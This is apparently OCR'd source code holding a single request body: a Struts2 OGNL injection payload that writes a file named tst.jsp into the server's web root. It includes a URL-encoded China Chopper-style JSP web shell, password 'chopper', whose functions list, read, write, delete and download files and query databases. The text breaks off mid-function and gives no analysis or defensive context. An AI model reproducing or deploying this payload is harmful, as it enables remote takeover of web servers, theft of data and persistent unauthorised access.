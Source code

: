  u'body':
u"redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23res%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23res.getWriter().println(%22okokok%22),%23res.getWriter().flush(),%23res.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22tst.jsp%22)).append(%23req.getParameter(%22shell%22)).close()}&shell=%3C%25%40page%20import%3D%22java.io.*%2Cjava.util.*%2Cjava.net.*%2Cjava.sql.*%2Cjava.text.*%22%25%3E%0D%0A%3C%25!%0D%0AString%20Pwd%3D%22chopper%22%3B%0D%0AString%20EC(String%20s%2CString%20c)throws%20Exception%7Breturn%20s%3B%7D%2F%2Fnew%20String(s.getBytes(%22ISO-8859-1%22)%2Cc)%3B%7D%0D%0AConnection%20GC(String%20s)throws%20Exception%7BString%5B%5D%20x%3Ds.trim().split(%22%5Cr%5Cn%22)%3BClass.forName(x%5B0%5D.trim()).newInstance()%3B%0D%0AConnection%20c%3DDriverManager.getConnection(x%5B1%5D.trim())%3Bif(x.length%3E2)%7Bc.setCatalog(x%5B2%5D.trim())%3B%7Dreturn%20c%3B%7D%0D%0Avoid%20AA(StringBuffer%20sb)throws%20Exception%7BFile%20r%5B%5D%3DFile.listRoots()%3Bfor(int%20i%3D0%3Bi%3Cr.length%3Bi%2B%2B)%7Bsb.append(r%5Bi%5D.toString().substring(0%2C2))%3B%7D%7D%0D%0Avoid%20BB(String%20s%2CStringBuffer%20sb)throws%20Exception%7BFile%20oF%3Dnew%20File(s)%2Cl%5B%5D%3DoF.listFiles()%3BString%20sT%2C%20sQ%2CsF%3D%22%22%3Bjava.util.Date%20dt%3B%0D%0ASimpleDateFormat%20fm%3Dnew%20SimpleDateFormat(%22yyyy-MM-dd%20HH%3Amm%3Ass%22)%3Bfor(int%20i%3D0%3Bi%3Cl.length%3Bi%2B%2B)%7Bdt%3Dnew%20java.util.Date(l%5Bi%5D.lastModified())%3B%0D%0AsT%3Dfm.format(dt)%3BsQ%3Dl%5Bi%5D.canRead()%3F%22R%22%3A%22%22%3BsQ%2B%3Dl%5Bi%5D.canWrite()%3F%22%20W%22%3A%22%22%3Bif(l%5Bi%5D.isDirectory())%7Bsb.append(l%5Bi%5D.getName()%2B%22%2F%5Ct%22%2BsT%2B%22%5Ct%22%2Bl%5Bi%5D.length()%2B%22%5Ct%22%2BsQ%2B%22%5Cn%22)%3B%7D%0D%0Aelse%7BsF%2B%3Dl%5Bi%5D.getName()%2B%22%5Ct%22%2BsT%2B%22%5Ct%22%2Bl%5Bi%5D.length()%2B%22%5Ct%22%2BsQ%2B%22%5Cn%22%3B%7D%7Dsb.append(sF)%3B%7D%0D%0Avoid%20EE(String%20s)throws%20Exception%7BFile%20f%3Dnew%20File(s)%3Bif(f.isDirectory())%7BFile%20x%5B%5D%3Df.listFiles()%3B%0D%0Afor(int%20k%3D0%3Bk%3Cx.length%3Bk%2B%2B)%7Bif(!x%5Bk%5D.delete())%7BEE(x%5Bk%5D.getPath())%3B%7D%7D%7Df.delete()%3B%7D%0D%0Avoid%20FF(String%20s%2CHttpServletResponse%20r)throws%20Exception%7Bint%20n%3Bbyte%5B%5D%20b%3Dnew%20byte%5B512%5D%3Br.reset()%3B%0D%0AServletOutputStream%20os%3Dr.getOutputStream()%3BBufferedInputStream%20is%3Dnew%20BufferedInputStream(new%20FileInputStream(s))%3B%0D%0Aos.write((%22-%3E%22%2B%22%7C%22).getBytes()%2C0%2C3)%3Bwhile((n%3Dis.read(b%2C0%2C512))!%3D-1)%7Bos.write(b%2C0%2Cn)%3B%7Dos.write((%22%7C%22%2B%22%3C-%22).getBytes()%2C0%2C3)%3Bos.close()%3Bis.close()%3B%7D%0D%0Avoid%20GG(String%20s%2C%20String%20d)throws%20Exception%7BString%20h%3D%220123456789ABCDEF%22%3Bint%20n%3BFile%20f%3Dnew%20File(s)%3Bf.createNewFile()%3B%0D%0AFileOutputStream%20os%3Dnew%20FileOutputStream(f)%3Bfor(int%20i%3D0%3Bi%3Cd.length()%3Bi%2B%3D2)%0D%0A%7Bos.write((h.indexOf(d.charAt(i))%3C%3C4%7Ch.indexOf(d.charAt(i%2B1))))%3B%7Dos.close()%3B%7D%0D%0Avoid%20HH(String%20s%2CString%20d)throws%20Exception%7BFile%20sf%3Dnew%20File(s)%2Cdf%3Dnew%20File(d)%3Bif(sf.isDirectory())%7Bif(!df.exists())%7Bdf.mkdir()%3B%7DFile%20z%5B%5D%3Dsf.listFiles()%3B%0D%0Afor(int%20j%3D0%3Bj%3Cz.length%3Bj%2B%2B)%7BHH(s%2B%22%2F%22%2Bz%5Bj%5D.getName()%2Cd%2B%22%2F%22%2Bz%5Bj%5D.getName())%3B%7D%0D%0A%7Delse%7BFileInputStream%20is%3Dnew%20FileInputStream(sf)%3BFileOutputStream%20os%3Dnew%20FileOutputStream(df)%3B%0D%0Aint%20n%3Bbyte%5B%5D%20b%3Dnew%20byte%5B512%5D%3Bwhile((n%3Dis.read(b%2C0%2C512))!%3D-1)%7Bos.write(b%2C0%2Cn)%3B%7Dis.close()%3Bos.close()%3B%7D%7D%0D%0Avoid%20II(String%20s%2CString%20d)throws%20Exception%7BFile%20sf%3Dnew%20File(s)%2Cdf%3Dnew%20File(d)%3Bsf.renameTo(df)%3B%7Dvoid%20JJ(String%20s)throws%20Exception%7BFile%20f%3Dnew%20File(s)%3Bf.mkdir()%3B%7D%0D%0Avoid%20KK(String%20s%2CString%20t)throws%20Exception%7BFile%20f%3Dnew%20File(s)%3BSimpleDateFormat%20fm%3Dnew%20SimpleDateFormat(%22yyyy-MM-dd%20HH%3Amm%3Ass%22)%3B%0D%0Ajava.util.Date%20dt%3Dfm.parse(t)%3Bf.setLastModified(dt.getTime())%3B%7D%0D%0Avoid%20LL(String%20s%2C%20String%20d)throws%20Exception%7BURL%20u%3Dnew%20URL(s)%3Bint%20n%3BFileOutputStream%20os%3Dnew%20FileOutputStream(d)%3B%0D%0AHttpURLConnection%20h%3D(HttpURLConnection)u.openConnection()%3BInputStream%20is%3Dh.getInputStream()%3Bbyte%5B%5D%20b%3Dnew%20byte%5B512%5D%3B%0D%0Awhile((n%3Dis.read(b%2C0%2C512))!%3D-1)%7Bos.write(b%2C0%2Cn)%3B%7Dos.close()%3Bis.close()%3Bh.disconnect()%3B%7D%0D%0Avoid%20MM(InputStream%20is%2C%20StringBuffer%20sb)throws%20Exception%7BString%20l%3BBufferedReader%20br%3Dnew%20BufferedReader(new%20InputStreamReader(is))%3B%0D%0Awhile((l%3Dbr.readLine())!%3Dnull)%7Bsb.append(l%2B%22%5Cr%5Cn%22)%3B%7D%7D%0D%0Avoid%20NN(String%20s%2CStringBuffer%20sb)throws%20Exception%7BConnection%20c%3DGC(s)%3BResultSet%20r%3Dc.getMetaData().getCatalogs()%3B%0D%0Awhile(r.next())%7Bsb.append(r.getString(1)%2B%22%5Ct%22)%3B%7Dr.close()%3Bc.close()%3B%7D%0D%0Avoid%20OO(String%20s%2CStringBuffer%20sb)throws%20Exception%7BConnection%20c%3DGC(s)%3BString%5B%5D%20t%3D%7B%22TABLE%22%7D%3BResultSet%20r%3Dc.getMetaData().getTables%20(null%2Cnull%2C%22%25%22%2Ct)%3B%0D%0Awhile(r.next())%7Bsb.append(r.getString(%22TABLE_NAME%22)%2B%22%5Ct%22)%3B%7Dr.close()%3Bc.close()%3B%7D%0D%0Avoid%20PP(String%20s%2CStringBuffer%20sb)throws%20Exception%7BString%5B%5D%20x%3Ds.trim().split(%22%5Cr%5Cn%22)%3BConnection%20c%3DGC(s)%3B%0D%0AStatement%20m%3Dc.createStatement(1005%2C1007)%3BResultSet%20r%3Dm.executeQuery(%22select%20*%20from%20%22%2Bx%5B3%5D)%3BResultSetMetaData%20d%3Dr.getMetaData()%3B%0D%0Afor(int%20i%3D1%3Bi%3C%3Dd.getColumnCount()%3Bi%2B%2B)%7Bsb.append(d.getColumnName(i)%2B%22%20(%22%2Bd.getColumnTypeName(i)%2B%22)%5Ct%22)%3B%7Dr.close()%3Bm.close()%3Bc.close()%3B%7D%0D%0Avoid%20QQ(String%20cs%2CString%20s%2CString%20q%2CStri